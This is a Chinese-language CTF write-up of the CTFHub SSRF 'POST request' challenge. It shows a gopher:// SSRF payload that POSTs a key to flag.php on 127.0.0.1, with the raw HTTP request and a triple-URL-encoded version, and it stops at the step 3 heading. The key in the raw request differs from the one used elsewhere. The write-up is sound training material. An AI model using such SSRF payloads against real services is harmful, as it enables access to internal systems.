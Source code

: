 ```yaml
---
title: CTFHub--SSRF
date: 2021-09-23 14:06
updated: 2021-09-23 14:06
categories: CTFHub
tags: [SSRF]
toc: true
---
```

CTFHub-SSRF


## 一、Post请求

**1.先用伪协议尝试读取index.php和flag.php文件**

![img](https://img-blog.csdnimg.cn/20210817184540249.png)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)以下为index.php源代码

![](https://img-blog.csdnimg.cn/20210817184746833.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMxNzEwMzMx,size_16,color_FFFFFF,t_70)![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

再看flag.php里出现了一串奇怪的key，利用curl和gopher协议POST数据到flag.php即可

key=88e24a185b1471ea34764dfb6129c7d7

思路：往index.php里传入我们的payload

>  /?url=127.0.0.1:80/index.php?url=gopher://POST包

**2.构造post请求**

> 注意项： ①对构造的post包进行三次URL编码，本体一次，传入index一次，跳转到flag一次
>
> ②编码第一次后的%0A全部替换成%0D%0A
>
> ③content-length为最后一行的长度，即post数据的大小

```html
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=8a6d748f4f820709cd9e444991d49dd0
```

![点击并拖拽以移动](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

进行三次编码修改后可得：

POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application/x-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D88e24a185b1471ea34764dfb6129c7d7



**3.发送请求**
